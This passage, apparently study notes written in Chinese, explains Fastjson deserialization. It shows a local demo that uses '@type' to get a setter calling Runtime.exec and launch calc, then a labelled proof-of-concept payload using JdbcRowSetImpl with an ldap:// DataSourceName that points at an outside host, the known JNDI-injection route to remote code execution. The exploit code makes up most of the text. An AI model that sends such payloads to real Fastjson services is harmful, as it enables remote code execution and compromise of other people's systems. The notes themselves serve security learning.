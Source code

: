 **本地弹计算器**



```java
public void ex(){
    
    // @type为特殊情况
    /**
    	fastjson是先按照字符串解析，然后在判断是否存在@type，
    	如果存在@type就按照Java对象解析
		如果要对这个对象解析需要一个反序列器，
		然后花了一大波时间将反序列器拿到，然后在调用相对应的反序列方法
		过程中会调用setter和getter方法
    */
        String s1 = "{\"@type\":\"com.example.fast.Test\",\"cmd\":\"calc\"}";

        JSONObject jsonObject = JSON.parseObject(s1);
        System.out.println(jsonObject);

    }

public class Test {

    public void setCmd(String cmd) throws Exception{
        Runtime.getRuntime().exec(cmd);
    }

}
```

**poc代码**

```java
public void fast1(){
        String s1 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://169.254.115.11:8085/\",\"AutoCommit\":\"false\"}";


        JSONObject jsonObject = JSON.parseObject(s1);
        System.out.println(jsonObject);
    }

```





## JNDI





## Shiro
